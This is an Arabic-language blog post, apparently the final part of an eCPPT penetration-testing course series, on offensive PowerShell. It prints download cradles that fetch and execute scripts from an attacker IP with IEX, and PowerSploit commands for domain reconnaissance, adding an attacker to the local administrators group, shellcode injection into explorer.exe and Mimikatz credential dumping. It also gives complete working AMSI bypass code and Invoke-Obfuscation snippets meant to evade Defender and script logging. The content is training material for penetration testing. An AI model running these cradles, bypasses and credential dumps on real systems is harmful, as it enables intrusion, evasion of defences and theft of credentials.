




يعد **PowerShell** السلاح الأكثر فاعلية وتأثيرًا في ترسانة مختبري الاختراق وفرق الهجوم الأحمر (Red Teams) داخل بيئات ويندوز. فبدلاً من تنزيل أدوات خارجية تثير شكوك أنظمة الحماية وسجلات الأمان، يتيح باورشيل تطبيق مبدأ **العيش على موارد الأرض (Living Off The Land - LotL)**؛ مستفيدًا من الثقة المطلقة الممنوحة له في النظام، والوصول المباشر لكافة واجهات **.NET Framework** ونظام كائنات **WMI / CIM**.

في هذا الجزء العاشر والختامي من سلسلة **eCPPT** الشاملة، سنفكك باورشيل من منظور هجومي بحت: بدءًا من بنية الـ Cmdlets ومهد التنزيل في الذاكرة (Download Cradles)، مرورًا بالاستخدام الميداني لترسانة **PowerSploit**، وانتهاءً بالتشريح الهندسي لواجهة فحص البرمجيات الخبيثة **AMSI** وكيفية تعطيلها عبر ترقيع الذاكرة (Memory Patching).

---

### جدول التنقل في السلسلة (Series Navigation)

| **المقال السابق** | **المقال الحالي** | **المقال القادم** |
| :---: | :---: | :---: |
| [الجزء 9: الهجمات من جانب العميل (Client-Side Attacks)](/posts/ecppt-v3-part-9-client-side-attacks/) | **الجزء 10: باورشيل الهجومي وتجاوز AMSI** | *نهاية السلسلة - مراجعة خريطة الطريق* |

---

## أبرز النقاط الرئيسية (Key Takeaways)

* **الأفضلية الهجومية لباورشيل**: وصول غير مقيد إلى مكتبات .NET و Win32 APIs، تنفيذ العمليات بالكامل داخل الذاكرة العشوائية دون لمس القرص الصلب (Fileless Execution)، واستخدام أدوات الإدارة الشرعية لتفادي الحظر.
* **مهد التنزيل والتنفيذ المباشر (Download Cradles)**: استخدام دالة `Invoke-Expression` (`IEX`) مع كائن `Net.WebClient` لجلب السكربتات الضخمة من خادم المهاجم وتنفيذها مباشرة في مساحة الذاكرة المخصصة لعملية `powershell.exe`.
* **ترسانة PowerSploit الميدانية**: حزمة هجومية متكاملة تشمل موديولات استكشاف الدليل النشط (`PowerView`)، تدقيق وتصعيد الصلاحيات محليًا (`PowerUp`)، حقن الأكواد التنفيذية في العمليات الأخرى (`Invoke-Shellcode` و `Invoke-ReflectivePEInjection`)، وتفريغ الهاشات (`Invoke-Mimikatz`).
* **تشريح واجهة فحص البرمجيات الخبيثة (AMSI Architecture)**: تعمل مكتبة `amsi.dll` داخل مساحة كل عملية باورشيل وتقوم باعتراض الأكواد وتمريرها لدالة `AmsiScanBuffer` قبل التنفيذ لمقارنتها بتواقيع Windows Defender.
* **تخطي AMSI بترقيع الذاكرة (In-Memory Patching)**: استخدام Reflection للوصول لعنوان دالة `AmsiScanBuffer` في الذاكرة، ثم استخدام `VirtualProtect` لكتابة بايتات تعيد رمز الخطأ أو `AMSI_RESULT_CLEAN` فورًا، مما يعمي مضاد الفيروسات تمامًا لبقية الجلسة!

---

## 1. أساسيات باورشيل وأنابيب الكائنات (Cmdlets & Pipeline Architecture)

على عكس طرفيات Linux التي تمرر نصوصًا خام عبر الأنابيب (`|`)، فإن خط أنابيب باورشيل يمرر **كائنات غنية بالخصائص والأساليب (Objects)**:



### الأوامر التكتيكية لإدارة القيود:

```powershell
# التحقق من سياسة تنفيذ السكربتات الحالية
Get-ExecutionPolicy

# تجاوز سياسة التنفيذ للجلسة الحالية دون الحاجة لصلاحيات المدير
powershell.exe -ExecutionPolicy Bypass -NoProfile -WindowStyle Hidden

# الاستعلام الهجومي عن معلومات النظام عبر WMI / CIM
Get-CimInstance Win32_OperatingSystem | Select-Object Caption, Version, OSArchitecture
Get-CimInstance Win32_UserAccount | Select-Object Name, SID, Disabled
```

---

## 2. مهد التنزيل والتنفيذ في الذاكرة (In-Memory Download Cradles)

تعتمد استراتيجية الهجوم الحديثة على عدم كتابة ملفات السكربتات الهجومية على القرص الصلب لتفادي رصد مكافحات الفيروسات التقليدية:



### الصيغ القياسية لمهد التنزيل:

```powershell
# 1. المهد الكلاسيكي عبر WebClient
IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.5:8000/PowerUp.ps1')

# 2. المهد المتوافق مع PowerShell 3.0+ عبر Invoke-WebRequest
IEX (Invoke-WebRequest -Uri 'http://10.10.14.5:8000/PowerView.ps1' -UseBasicParsing).Content

# 3. مهد فائق التخفي مع معالجة وكيل الشبكة والشهادات غير الموثوقة
$wc = New-Object System.Net.WebClient
$wc.Headers.Add("User-Agent", "Mozilla/5.0")
$wc.Proxy = [System.Net.WebRequest]::DefaultWebProxy
$wc.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials
IEX $wc.DownloadString('http://10.10.14.5:8000/exploit.ps1')
```

---

## 3. الترسانة الهجومية لحزمة PowerSploit

تعد حزمة **PowerSploit** الإطار الهجومي الأوسع انتشارًا في اختبارات eCPPT لما تحتويه من وحدات متخصصة:



### 1. استكشاف النطاق عبر PowerView:
```powershell
# كشف كافة حسابات مدراء النطاق
Get-NetGroupMember -GroupName "Domain Admins"

# البحث عن الحواسيب التي يمتلك المستخدم الحالي صلاحيات إدارية عليها
Find-LocalAdminAccess -Verbose
```

### 2. فحص وتصعيد الصلاحيات محليًا عبر PowerUp:
```powershell
# فحص كافة ثغرات النظام وسوء التهيئة في أمر واحد
Invoke-AllChecks

# إذا تم اكتشاف خدمة ضعيفة الصلاحيات، يتم استغلالها بضغطة زر
Write-ServiceExec -ServiceName "VulnService" -Command "net localgroup administrators attacker /add"
```

### 3. حقن كود الـ Shellcode في عملية أخرى (Process Injection):
```powershell
# حقن اتصال عكسي داخل عملية Explorer.exe المستقرة
Invoke-Shellcode -ProcessID (Get-Process explorer).Id -Shellcode @(0x90,0x90,0xcc...)
```

### 4. تفريغ الهاشات وكلمات المرور من الذاكرة عبر Invoke-Mimikatz:
```powershell
# استخراج كلمات المرور من ذاكرة LSASS دون رفع أداة mimikatz.exe على النظام
Invoke-Mimikatz -DumpCreds
```

---

## 4. تشريح وهندسة حماية AMSI (Antimalware Scan Interface Internals)

تم إطلاق **AMSI** في نظام Windows 10 كمعيار مفتوح يسمح للتطبيقات (مثل `powershell.exe`, `wscript.exe`, و `Office`) بتمرير المحتوى النصي للسكربتات إلى مضاد الفيروسات المثبت (مثل Windows Defender) قبل فك شفرته أو تنفيذه.



---

## 5. تقنية ترقيع الذاكرة لتعطيل AMSI (In-Memory Patching)

بما أن مكتبة `amsi.dll` يتم تحميلها **داخل مساحة الذاكرة المخصصة لعملية باورشيل الخاصة بالمهاجم**، فإن المهاجم يمتلك قانونيًا صلاحيات كاملة لقراءة وتعديل ذاكرة عمليته الحالية!

تقوم تقنية الترقيع (Rasta-Mouse Patch) بتعديل أول بضعة بايتات من دالة `AmsiScanBuffer` في الذاكرة لتجعلها تعيد رمز خطأ (`0x80070057` وهو `E_INVALIDARG`) وتتراجع فورًا قبل إرسال أي بايتات لـ Windows Defender:

```mermaid
sequenceDiagram
    autonumber
    actor Attacker as سطر أوامر باورشيل
    participant Memory as ذاكرة العملية (amsi.dll)
    participant Function as دالة AmsiScanBuffer
    
    Attacker->>Memory: البحث عن عنوان مكتبة amsi.dll عبر GetModuleHandle
    Memory-->>Attacker: عنوان المكتبة الأساسي: 0x7FFA12340000
    Attacker->>Memory: البحث عن عنوان دالة AmsiScanBuffer عبر GetProcAddress
    Memory-->>Attacker: عنوان الدالة: 0x7FFA12345678
    
    Attacker->>Memory: تغيير صلاحيات صفحة الذاكرة من (RX) إلى (RWX) عبر VirtualProtect
    Attacker->>Function: كتابة ترقيع Assembly: mov eax, 0x80070057 ; ret (6 بايتات فقط!)
    Attacker->>Memory: إعادة صلاحيات الصفحة الأصلية (RX)
    
    Note over Function: تم ترقيع الدالة بنجاح!
    Attacker->>Function: استدعاء أي كود خبيث (مثل Invoke-Mimikatz)
    Function-->>Attacker: الدالة تعيد فورًا خطأ إدخال وتتجاوز الفحص!
```

### كود ترقيع AMSI الشهير في سطر واحد:

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

### كود ترقيع بايتات دالة `AmsiScanBuffer` المباشر (x64 Architecture):

```powershell
$Win32 = @"
using System;
using System.Runtime.InteropServices;

public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $Win32

# تحميل amsi.dll وجلب عنوان AmsiScanBuffer
$LoadLibrary = [Win32]::LoadLibrary("amsi.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "AmsiScanBuffer")

# تغيير الصلاحيات إلى PAGE_EXECUTE_READWRITE (0x40)
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)

# ترقيع الدالة لتعيد دائمًا كود الخطأ (mov eax, 0x80070057; ret)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)

# إعادة الصلاحيات الأصلية
[Win32]::VirtualProtect($Address, [uint32]5, $p, [ref]$p)

Write-Host "[+] AMSI successfully patched in memory! You are now invisible to Defender." -ForegroundColor Green
```

بمجرد تنفيذ هذا السكربت الصغير، تصبح الجلسة الحالية محصنة تمامًا ضد فحص Defender، ويمكنك تحميل وتنزيل أي سكربت من سكربتات PowerSploit أو Mimikatz دون أدنى اعتراض!

---

## 6. تقنيات تعمية الشيفرات عبر Invoke-Obfuscation

لتجاوز أنظمة كشف السجلات وتسجيل الكتل البرمجية (**Script Block Logging**)، نستخدم إطار العمل الشهير **Invoke-Obfuscation** لدانيال بوهانون لتعمية الأكواد عبر:

1. **تقطيع السلاسل النصية وحقن علامات Backticks**:
   ```powershell
   # بدلاً من استدعاء IEX الصريح:
   & ( $eNV:cOmSpeC[4,15,25]-jOiN'') ( "W`ri`te-H`os`t 'Hacked'")
   ```
2. **عكس ترتيب السلاسل واستخدام مصفوفات البيئة**:
   ```powershell
   # تجميع الأوامر من متغيرات النظام دون كتابة أي كلمة مفتاحية ممنوعة
   $cmd = [string]::join('', (('tseT-evoknI')[('tseT-evoknI'.length-1)..0]))
   ```

---

## المراجع والمصادر الخارجية (References & Further Reading)

1. **Microsoft Learn: Antimalware Scan Interface (AMSI) Architecture**: [https://learn.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal](https://learn.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal)
2. **PowerSploit Offensive PowerShell Repository**: [https://github.com/PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit)
3. **Invoke-Obfuscation by Daniel Bohannon**: [https://github.com/danielbohannon/Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
4. **Rasta-Mouse AMSI Bypass Research**: التوثيق التاريخي لترقيع دالة `AmsiScanBuffer` في الذاكرة.
5. **MITRE ATT&CK Matrix**:
   * Technique T1059.001: PowerShell
   * Technique T1562.001: Impair Defenses: Disable or Modify Tools (AMSI Bypass)

---

*Author: Abdulrahman M. Fathi (0x3bdo) • Cyber Security Engineer & Penetration Tester*
